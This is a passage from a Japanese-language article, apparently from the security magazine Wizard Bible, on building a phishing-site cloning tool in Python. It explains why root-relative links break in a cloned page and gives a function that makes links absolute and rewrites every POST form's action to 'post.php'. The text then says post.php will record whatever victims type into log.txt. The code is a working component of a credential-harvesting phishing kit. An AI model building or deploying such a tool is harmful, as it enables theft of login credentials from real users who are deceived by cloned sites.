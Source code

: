 <p>サイトルート相対パス</p>
<img src="/images/wizardbible.jpg"/>
<p>相対パス</p>
<img src="images/wizardbible.jpg"/>

　サイトルート相対パスの" / "は Webサーバのルートのため、サービス上では
「http://wizardbible.org/images/wizardbible.jpg」などのアドレスを指し、適
切に表示されますが、ローカルコンピュータ上ではローカルドライブ直下がルー
トとして認識されるために誤った場所が参照され、リンクが正しく無いため画像
イメージなどが表示されません。
　これで現状のフィッシングツールではフィッシングサイトを作成できないため、
工夫が必要になります。

　では単純にルート相対パスを潰してしまってはどうでしょう？
　Pythonではhtmlを簡単に整形できます。

　下記関数でそれを実行します。

```
#########################
#リンクを絶対パスに置き換える#
##########################
def relaive(clonesite,base):
    fullpath = "/clone/index.html"
    site = "index.html"
    with open(clonesite, "r") as rf:
        doc = html.parse(rf).getroot()
        html.make_links_absolute(doc, base)
    fileopen=file("/clone/index.html","r").readlines()
    filewrite=file(fullpath,"w")
    try:
        for line in fileopen:
            counter=0
            match=re.search('post',line, flags=re.IGNORECASE)
            method_post=re.search("method=post", line, flags=re.IGNORECASE)
            if match or method_post:
                line = re.sub('action="*"', 'action="post.php"', line)
            match2 = re.search("swiftActionQueue={buckets:j", line, flags=re.IGNORECASE)
            if match2:
                line = line.replace("swiftActionQueue={buckets:j", "swiftActionQueue={3buckets:j")
            filewrite.write(line)
	print "action attribute it was rewritten to post.php.."
    except:
	print "file write error.."
    finally:
        filewrite.close()
##################################################################################################
##################################################################################################
```

　お気づきでしょうか？
　上記関数でaction="hoge"の値をpost.phpに書き換えています。
　今回は、入力された値を受け取りファイルに書き込むphpファイルも自動で作成
することにします。python上でpost.phpというphpファイルとlog.txtというファ
イルを作成します。post.phpがlog.txtに対して作成したフィッシングサイトの入
力値をそのまま書き込んでいくようにします。
